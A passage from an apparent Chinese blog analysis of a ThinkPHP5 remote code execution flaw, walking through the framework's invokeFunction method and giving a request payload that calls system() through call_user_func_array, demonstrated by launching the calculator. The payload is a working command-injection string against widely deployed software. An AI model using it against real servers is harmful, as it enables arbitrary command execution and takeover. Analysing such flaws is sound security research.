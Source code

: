 ```
我们就看最后一个payload吧..因为我试了下上面的好像在这个版本都不成功。

可以看到确实是有这个类的

![](/images/ThinkPHP5-rce-analysic/40.png)

找到\think\app/invokefunction。

![](/images/ThinkPHP5-rce-analysic/41.png)

```
public static function invokeFunction($function, $vars = [])
{
    // 使用 ReflectionFunction 类来反射函数
    $reflect = new \ReflectionFunction($function);

    // 绑定参数，确保传入函数的参数与实际参数匹配
    $args = self::bindParams($reflect, $vars);

    // 如果开启了调试模式，记录函数执行的信息
    self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');

    // 使用反射对象调用函数，并传入绑定后的参数
    return $reflect->invokeArgs($args);
}
```

简单的讲就是传入一个$function是函数名，另一个数组里面就是函数的参数。所以到这里就很清晰了。

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
```

就是用`call_user_func_array`去执行`calc`来弹计算器就行了。

![](/images/ThinkPHP5-rce-analysic/42.png)
